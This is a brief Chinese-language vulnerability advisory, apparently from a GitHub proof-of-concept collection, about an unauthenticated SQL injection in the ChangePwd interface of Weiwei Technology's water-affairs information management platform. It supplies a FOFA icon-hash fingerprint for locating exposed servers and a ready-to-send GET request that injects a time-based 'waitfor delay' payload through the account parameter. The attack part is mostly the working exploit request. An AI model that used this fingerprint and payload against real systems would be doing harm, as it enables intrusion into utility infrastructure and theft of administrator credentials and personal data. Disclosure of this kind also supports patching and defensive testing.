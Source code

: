 ## 潍微科技-水务信息管理平台ChangePwd接口存在SQL注入漏洞

潍微科技-水务信息管理平台 ChangePwd 接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

## fofa
```
icon_hash="-491165370"
```


## poc
```
GET /Account/ChangePwd?oldpwd=123456&newpwd=123456&conpwd=123456&account=1%27;waitfor%20delay%20%270:0:5%27--+ HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept-Encoding: gzip, deflate, br
Connection: close
```

![a6fd2eeb352ff857001c3613ec992f16](https://github.com/wy876/POC/assets/139549762/db189bee-4a6a-4159-a39f-c07c138e0c59)

